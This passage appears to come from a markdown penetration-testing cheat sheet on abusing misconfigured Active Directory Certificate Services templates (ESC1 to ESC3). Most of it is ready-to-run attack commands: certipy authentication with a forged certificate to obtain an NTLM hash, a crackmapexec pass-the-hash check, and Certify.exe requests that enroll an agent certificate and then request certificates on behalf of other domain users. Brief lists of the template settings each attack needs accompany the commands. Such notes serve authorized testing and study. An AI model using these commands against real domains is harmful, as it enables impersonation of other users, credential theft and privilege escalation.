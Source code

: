 ````
```

#### Unpac the hash
```
certipy auth -pfx 'esc1.pfx'
```

#### Check access
```
cme smb <FQDN> -u <USER> -H <NTLM HASH>
```

### ESC2 Modifiable SAN
- Same as ESC1 only EKU is different. A certificate with no EKUs (SubCA certificate) can be abused for any purpose as well. It could also be used to sign new certificates.
- Requirements
	- Extended Key Usage: `Any Purpose` (`2.5.29.37.0`)
	- Certificate-Name-Flag: `ENROLLEE_SUPPLIES_SUBJECT` attribute is enabled: allows the certificate requestor to specify any subjectAltName (SAN) to request a certificate as any user 
	- User with Enrollment Rights

#### Abuse same as ESC1 for Windows/Linux
- [ESC1 Link](#ESC1-Request-SAN-of-other-user)

### ESC3 Agent certificate & Enroll on behalf of other user
- Requires two certficate templates
	- Template 1
		- Extended Key Usage: `Certificate Request Agent` (`1.3.6.1.4.1.311.20.2.1`)
		- User with Enrollment Rights
	- Template 2
		- Extended Key Usage: `Client Authentication` (`1.3.6.1.5.5.7.3.2`)
		- Authorized Signatures Required: `1`
		- Application Policies: `Certificate Request Agent` (Doesn't show in certipy, Auth sig 1 is good)
		- User with Enrollment Rights

### Windows
#### Request Enrollment Agent Certificate
- Template 1
```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE NAME 1> /user:<USER TO ENROLL> /domain:<DOMAIN>
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Enroll agent on behalf of another user
- Template 2

```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE NAME 2> /onbehalfof:<DOMAIN>\<USER> /enrollcert:<PATH TO cert.pfx> /enrollcertpw:<PASSWORD> /domain:<DOMAIN>
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
````